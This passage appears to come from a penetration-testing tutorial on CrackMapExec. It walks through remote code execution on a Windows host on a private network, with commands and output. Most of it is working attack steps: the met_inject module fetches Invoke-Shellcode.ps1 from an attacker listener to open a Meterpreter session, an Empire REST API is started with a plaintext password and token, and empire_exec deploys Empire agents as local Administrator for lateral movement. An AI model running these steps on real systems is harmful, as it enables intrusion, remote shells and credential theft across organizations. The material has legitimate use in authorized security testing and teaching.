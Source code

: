 sudo cme 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth -M met_inject -o LHOST=192.168.215.109 LPORT=5656 
Password:
CME          192.168.215.104:445 MEETINGROOM     [*] Windows 6.3 Build 9600 (name:MEETINGROOM) (domain:SE)
CME          192.168.215.104:445 MEETINGROOM     [+] MEETINGROOM\Administrator:PASS (Pwn3d!)
METINJECT    192.168.215.104:445 MEETINGROOM     [+] Executed payload
METINJECT                                      [*] Waiting on 1 host(s)
METINJECT    192.168.215.104                   [*] - - "GET /Invoke-Shellcode.ps1 HTTP/1.1" 200 -
[*] KTHXBYE!

Empire

Start RESTful API

 empire --rest --user empireadmin --pass gH25Iv1K68@^

[*] Loading modules from: /usr/local/Cellar/empire/1.5_1/libexec/lib/modules/
 * Starting Empire RESTful API on port: 1337
 * RESTful API token: 3brqi3nypvjzqgd269km091onaqc1t6kz8l1fclk
 * Running on https://0.0.0.0:1337/ (Press CTRL+C to quit)

Launch empire listener to target

sudo cme 192.168.215.104 -u Administrator -p PASSWORD --local-auth -M empire_exec -o LISTENER=CMETest
EMPIRE_EXEC                                    [+] Successfully generated launcher for listener 'CMETest'
CME          192.168.215.104:445 MEETINGROOM     [*] Windows 6.3 Build 9600 (name:MEETINGROOM) (domain:SE)
CME          192.168.215.104:445 MEETINGROOM     [+] MEETINGROOM\Administrator:PASSWORD (Pwn3d!)
EMPIRE_EXEC  192.168.215.104:445 MEETINGROOM     [+] Executed Empire Launcher

Teaming Up with Empire & DeathStar

CrackMapExec can deploy Empire agents to compromised machines. This makes further post-exploitation activities even easier, especially if using DeathStar’s automated attack capabilities. By using the empire_exec module and specifying the listener you want the agents to use, this will deploy and activate the agents en masse. All collected credentials can be imported into the CrackMapExec credential database. 

With all of these capabilities, CrackMapExec can make it easy for any pen tester or attacker to take a compromised computer and quickly spread through an organization with a few basic commands.
